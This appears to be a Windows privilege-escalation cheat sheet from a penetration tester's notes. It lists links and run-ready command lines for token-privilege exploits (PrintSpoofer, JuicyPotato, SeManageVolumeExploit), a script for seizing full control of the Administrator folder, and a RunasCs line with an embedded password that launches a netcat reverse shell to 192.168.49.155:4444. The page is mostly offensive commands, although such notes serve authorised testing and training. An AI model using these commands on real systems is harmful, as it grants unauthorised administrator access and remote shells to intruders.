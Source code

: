 ## Useful commands
### CMD
```shell
systeminfo # OS info
attrib # show hidden files
whoami /priv # show user's privileges
shutdown.exe -r -f -t 1 # reset machine
cacls <file> /e /p <user>:F # change file permissions (similar chmod 777)
```
### PowerShell
```PowerShell
Get-Acl <file> | fl # File/Dir properties (similar ls -la)
```

## Privilege Exploits
### SeManageVolumePrivilege
- [SeManageVolumeExploit.exe](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public) (then you may run [WerTrigger](https://github.com/sailay1996/WerTrigger) for a root shell.) 
### SeImpersonatePrivilege
- [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) 
```PowerShell
.\printspooofer.exe -i -c cmd.exe
```
- [JuicyPotato](https://github.com/ohpe/juicy-potato) ``
```PowerShell
.\juicypotato.exe -t * -l 1338 -c {9E175B6D-F52A-11D8-B9A5-505054503030} -p cmd.exe -a "/c <command>"
```
### SeBackupPrivilege
- [Acl-FullControl](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1) 
```PowerShell
Import-Module .\Acl-FullControl.ps1; Acl-FullControl.ps1 -user <domain\user> -path C:\Users\Administrator
```

## Tools
### PrivescCheck
```PowerShell
Import-Module .\PrivescCheck.ps1
Invoke-PrivescCheck -Extended
```
### PowerUp
```PowerShell
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
### RunAs
Run as another user (must use PowerShell): https://github.com/antonioCoco/RunasCs/releases/tag/1.3
```PowerShell
.\RunasCs_net4.exe svc_mssql trustno1 'c:\temp\nc.exe -e cmd.exe 192.168.49.155 4444'
```

### AccessChk
Check access properties
```PowerShell
.\accesschk.exe /accepteula -uwdq "C:\Program Files"
```